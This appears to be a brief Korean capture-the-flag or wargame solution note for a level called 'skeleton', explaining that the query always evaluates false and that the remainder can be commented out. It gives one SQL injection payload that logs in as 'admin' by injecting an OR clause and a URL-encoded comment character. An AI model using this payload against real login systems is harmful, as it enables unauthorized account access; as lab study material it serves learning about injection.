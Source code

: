# skeleton

어떤 값을 넣어도 거짓이 되도록 쿼리문이 작성되어있다.   
<br/>

* 뒷 부분을 주석처리 한다.   
<br/>

```
?pw=aa' or id='admin'%23
```
